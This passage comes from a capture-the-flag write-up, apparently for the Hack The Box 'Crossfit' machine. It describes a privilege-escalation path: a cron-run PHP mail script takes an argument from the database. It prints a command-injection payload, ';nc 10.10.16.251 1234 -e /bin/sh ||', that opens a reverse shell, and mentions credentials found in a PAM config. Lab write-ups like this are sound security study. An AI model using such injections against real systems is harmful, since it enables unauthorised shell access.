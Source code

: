 The php script is executing `/usr/bin/mail -s CrossFit Clue Newsletter <Argument From DB>`{:style="color:orange"}.
So I can inject a command `;nc 10.10.16.251 1234 -e /bin/sh ||`{:style="color:orange"} the email column in the `users`{:style="color:orange"} table and the overall command will look like:<br />
`/usr/bin/mail -s CrossFit Clue Newsletter ;nc 10.10.16.251 1234 -e /bin/sh ||`{:style="color:orange"}

---

So far so good but, I still have two issues left.

**Issue#1:** Let's say that I can inject command in the db, If i executed that php script myself then I'll end up with a reverse shell with as `hank`{:style="color:orange"} so no actual privilege escalation has been really done. Unless the script gets executed by `Isaac` there is no point of doing all of this. So to confirm this theory I started by checking `/etc/crontab`{:style="color:orange"} to see that indeed `send_updates.php`{:style="color:orange"} is executed every minute with `Isaac`{:style="color:orange"}'s privilege

![29](/assets/images/HTB/Crossfit/29.png)

Great! Now time to discuss the second issue.

**Issue#2:** The second issue is that there should be at least one file in `$msg_dir`{:style="color:orange"} so that the `if condition `{:style="color:orange"} evaluates to true and the code gets executed.
The problem is I still have no idea where that `$msg_dir`{:style="color:orange"} is located!

I came back to the files owned by the `admin`{:style="color:orange"} group and started looking through the PAM service configuration files and I found a username and a password in `/etc/pam.d/vsftpd`{:style="color:orange"}

![32](/assets/images/HTB/Crossfit/32.png)
